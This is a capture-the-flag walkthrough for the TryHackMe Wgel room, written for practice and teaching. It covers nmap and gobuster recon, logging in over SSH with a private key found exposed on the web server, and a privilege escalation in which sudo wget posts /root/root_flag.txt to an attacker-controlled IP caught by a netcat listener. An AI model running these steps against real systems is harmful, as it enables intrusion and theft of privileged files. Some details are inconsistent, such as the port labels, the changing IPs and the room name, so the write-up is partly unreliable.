 # Wgel THM CTF Walkthrough

Solving Wgel TryHackMe Capture The Flag [DAV TryHackMe Room](https://tryhackme.com/r/room/wgelctf)

## First Step: Reconnaissance

```sh
nmap -sV -sC -Pn -A 10.10.210.35
```
![Nmap Result](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/acf9d4a0-90c3-4331-876c-259d01151cab)

Here we see only port 20 (ssh) and 80 (http) are open.
Next step is to visit the webpage where we see the default Apache page, nothing really interesting yet. <br>
![Apache Default Web Page](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/db711117-55cf-40cf-bade-c899b639921b)

Although, We did get the username jessie in the source code of the page.
![Apache Source Code](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/68d8c025-4d7e-4e36-9e4a-5b0abcedb67f) <br>

## Directory Brute-Forcing

Using `Gobuster alternative`:
```sh
gobuster -u http://10.10.14.80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir
```

We found `/sitemap`, which is interesting So, did another gobuster search which gave ./ssh <br>
![sitemap ssh](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/07dffda9-c618-4ab7-8b7e-1f1fce228cb9) <br>
![sitemap ssh key](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/86b63692-2236-4b76-bd2b-9290c8c3bc18) <br>

Copy this Key. <br>
![id_rsa](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/dea30ebd-b497-4ca8-ad9b-412a8cebfd79) <br>

Give it executable permission and run ssh. <br>


```sh
chmod 600 id_rsa1
ssh jessie@10.10.214.80 -i id_rsa1
```

![ssh login](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/fb56a32c-1215-4b49-8543-3e35abd86252) <br>


We easily got user flag
```sh
find / -type f -name user_flag.txt 2>>/dev/null
cat /home/jessie/Documents/user_flag.txt
```
![user_flag](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/dc7fb1ee-0068-467b-8a72-5541a0e43eae) <br>

Let's try to escalate priviledges.
```sh
sudo -l
```

We can run sudo wget without password.
![sudo l](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/c3c31fca-e3b4-4964-a034-c3ed7fbdbd9b) <br>

```sh
nc -nlvp 4445
```

Let's Open netcat listener (The screenshot is older one with port 1234. Don't confuse it, You can use any port but remeber to keep the same port on both sides.)
![nc listener](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/5f30ea5d-d5b1-4d72-b84c-2f59b1d10e9f) <br>

```sh
sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.88.138:1234
```
![wget post](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/2fdf9d6f-a46f-4e46-a112-082a5adc3095) <br>

Check the Netcat listener. We have recieved the root flag.
![root flag](https://github.com/MajesticFires3010/Wgel-THM-CTF/assets/96762636/82cdc243-127f-44bd-b7e1-ed4274f9e993) <br>


## Congrats!
## We have solved DAV THM CTF!
## Follow My GitHub for more.

